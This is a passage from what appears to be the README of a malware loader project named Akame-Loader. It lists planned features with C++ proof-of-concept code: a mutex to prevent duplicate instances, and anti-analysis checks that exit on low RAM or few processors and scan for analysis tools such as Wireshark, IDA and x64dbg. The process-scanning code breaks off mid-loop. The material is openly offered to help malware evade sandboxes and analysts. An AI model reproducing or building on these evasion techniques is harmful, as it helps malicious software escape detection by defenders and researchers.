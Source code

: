 <img src="https://raw.githubusercontent.com/N3agu/Akame-Loader/main/Images/graph1.png">

- Create Mutex to avoid running multiple instances of akame on the same machine. POC:
```cpp
    // Check the mutex at the beginning
    if (OpenMutex(MUTEX_ALL_ACCESS, 0, L"MUTEX_RANDOM_STRING"))
        return 0;

    // Create mutex
    CreateMutex(0, 0, L"MUTEX_RANDOM_STRING");
```
- More anti analysis techniques (functions that check for suspicious files, directories, processes, windows' names, etc.). POC:
```cpp
    // A simple hard-disk check is already done, but we can as well check the available RAM / CPU
    
    // If the machine has less than 2048mb (2gb) of ram -> exit 
    MEMORYSTATUSEX memoryStatus;
    memoryStatus.dwLength = sizeof(memoryStatus);
    GlobalMemoryStatusEx(&memoryStatus);
    DWORD RAMMB = memoryStatus.ullTotalPhys / 1024 / 1024;
    if (RAMMB < 2048) return 0;
    
    // If the machine has less than 2 logical processors -> exit
    SYSTEM_INFO systemInfo;
    GetSystemInfo(&systemInfo);
    DWORD numberOfProcessors = systemInfo.dwNumberOfProcessors;
    if (numberOfProcessors < 2) return false;
    
    // Check for specific running processes that are usually used in malware analysis, like WireShark, PE-Bear, ProcMon, IDA, X64/X32 DBG, etc.
    PROCESSENTRY32W processEntry = { 0 };
    processEntry.dwSize = sizeof(PROCESSENTRY32W);
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    WCHAR processName[MAX_PATH + 1];
    if (Process32FirstW(hSnapshot, &processEntry))
    {
      do
```